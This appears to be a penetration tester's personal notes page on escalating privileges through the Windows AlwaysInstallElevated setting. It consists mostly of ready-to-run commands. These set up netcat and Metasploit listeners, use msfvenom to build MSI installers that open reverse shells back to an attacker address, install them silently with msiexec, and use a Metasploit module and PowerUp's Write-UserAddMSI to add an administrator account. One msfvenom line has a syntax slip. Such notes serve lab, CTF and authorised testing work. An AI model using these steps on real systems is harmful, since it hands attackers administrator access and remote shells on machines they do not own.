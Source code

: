 -- -
[[Dark Arts/Privesc/Windows/Enumeration/AlwaysInstallElevated|Enum]]
### CLI
#### Setup listener
on attack box
```bash
# for regular reverse shell
nc -nvlp 9001

# for meterpreter shell
msfconsole
use multi/handler
set lhost 10.10.10.14
set lport 9001
run
```
#### Generate malware
```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.10.14 lport=9001 -f msi -o setup.msi
msfvenom -p windows/x64/reverse_tcp lhost=10.10.10.14 lport 9001 -f msi -o setup.msi
```
#### Exploit
[[Dark Arts/File Transfer/Windows|File transfer]] the file over to the target
```powershell
msiexec /quiet /qn /i <path to malicious msi>.msi
msiexec /quiet /qn /i C:\Temp\setup.msi

# check user was added to administrators group
net localgroup administrators
```
#### metasploit
If you have a meterpreter session or a shell via metasploit, you can use this module to do exploit this vector as well.
```bash
# on meterpreter/shell session, background it
bg
background
ctrl+z

# load module
use /exploit/windows/local/always_install_elevated
set session <sess num>
set session 1

# exploit
run
```
### GUI
#### Exploit w/ PowerUp.ps1
You will need to [[Dark Arts/File Transfer/Windows|file transfer]] it to target.
```powershell
# if you haven't already, load in PowerUp
. .\PowerUp.ps1

# Exploit
# Given output like:
# [*] Checking for AlwaysInstallElevated registry key...
# AbuseeFunction : Write-UserAddMSI

# it's telling you that AlwaysInstallElevated registry key is set to one and that you can abuse it using the PowerUp function Write-UserAddMSI
Write-UserAddMSI

# it will then output an MSI called UserAdd
# with GUI access, double click on it and set a username, password, and group you want to be added to, which generally would be "Administrators".
# check if the new user was successfully added
net localgroup administators

# you should see your new user in the group now
# now log in as that user
```